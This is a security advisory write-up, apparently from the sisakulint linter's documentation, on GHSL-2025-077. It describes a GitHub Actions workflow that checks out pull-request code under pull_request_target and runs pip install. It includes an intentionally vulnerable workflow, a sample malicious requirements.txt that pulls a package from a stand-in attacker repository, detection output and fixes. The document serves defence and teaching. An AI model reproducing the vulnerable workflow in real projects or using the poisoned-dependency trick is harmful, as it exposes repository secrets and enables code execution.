

# GHSL-2025-077: Untrusted Checkout with pip install

## Summary

| Item | Value |
|------|-------|
| Advisory ID | GHSL-2025-077 |
| Severity | Critical |
| Affected Component | beeware/beeware.github.io |
| CVE | N/A |
| CWE | CWE-94 (Improper Control of Generation of Code) |
| Reference | https://securitylab.github.com/advisories/GHSL-2025-077_beeware_beeware_github_io/ |

## Vulnerability Description

GHSL-2025-077 is an untrusted code execution vulnerability in the `ci.yml` workflow. The vulnerability occurs when:

1. A workflow uses `pull_request_target` trigger with label condition
2. Checks out code from the PR branch (attacker-controlled)
3. Executes `pip install -r requirements.txt` from the checked-out code

This allows an attacker to execute arbitrary code by modifying `requirements.txt` to include malicious packages.

## Attack Vector



## Vulnerable Code Pattern

```yaml
name: CI (Vulnerable)

on:
  pull_request_target:
    types: [labeled]

permissions:
  contents: write
  pull-requests: write

jobs:
  build:
    if: contains(github.event.label.name, 'preview')
    runs-on: ubuntu-latest
    steps:
      # VULNERABLE: Checks out PR branch code in privileged context
      - uses: actions/checkout@v4
        with:
          ref: ${{ github.event.pull_request.head.sha }}

      # VULNERABLE: Executes attacker-controlled requirements.txt
      - name: Install dependencies
        run: |
          pip install -r requirements.txt

      - name: Build site
        run: |
          make build
```

### Malicious requirements.txt Example

```
# Normal dependencies
flask==2.0.0
requests==2.28.0

# Malicious package (executes code during pip install)
git+https://github.com/attacker/evil-package@main
```

## sisakulint Detection

sisakulint detects this vulnerability with the following rules:

### 1. untrusted-checkout

```
[untrusted-checkout] checking out untrusted code from pull request in workflow
with privileged trigger 'pull_request_target'. This allows potentially malicious
code from external contributors to execute with access to repository secrets.
```

### 2. cache-poisoning-poisonable-step

```
[cache-poisoning-poisonable-step] cache poisoning risk via build command:
'Install dependencies' runs untrusted code after checking out PR head
(triggers: pull_request_target). Attacker can steal cache tokens
```

## Remediation

### Option 1: Use pull_request trigger

```yaml
on:
  pull_request:
    types: [labeled]
# Note: pull_request trigger doesn't have secrets access from forks
```

### Option 2: Checkout base branch for dependencies

```yaml
- uses: actions/checkout@v4
  # Checkout base branch (safe)

- name: Install dependencies from base
  run: pip install -r requirements.txt

- uses: actions/checkout@v4
  with:
    ref: ${{ github.event.pull_request.head.sha }}
    path: pr-code
  # Only checkout PR code to separate directory for inspection
```

### Option 3: Pin all dependencies

```yaml
- name: Install dependencies
  run: |
    # Use locked dependencies from base branch
    pip install -r requirements.lock --no-deps
```

## Race Condition Risk

Even with label-based approval, there's a race condition risk:
1. Maintainer reviews PR and it looks safe
2. Attacker pushes malicious commit before label is added
3. Workflow executes with malicious code

**Mitigation**: Re-review code after adding label, or use commit SHA verification.

## Auto-Fix Support

sisakulint provides auto-fix for the untrusted checkout:

```bash
sisakulint -fix on script/actions/ghsl/ghsl-2025-077.yaml
```

## Test Files

- Vulnerable pattern: `script/actions/ghsl/ghsl-2025-077.yaml`

## References

- [GitHub Security Lab Advisory](https://securitylab.github.com/advisories/GHSL-2025-077_beeware_beeware_github_io/)
- [Fix PR](https://github.com/beeware/beeware.github.io/pull/693)
- [Keeping your GitHub Actions and workflows secure](https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/)
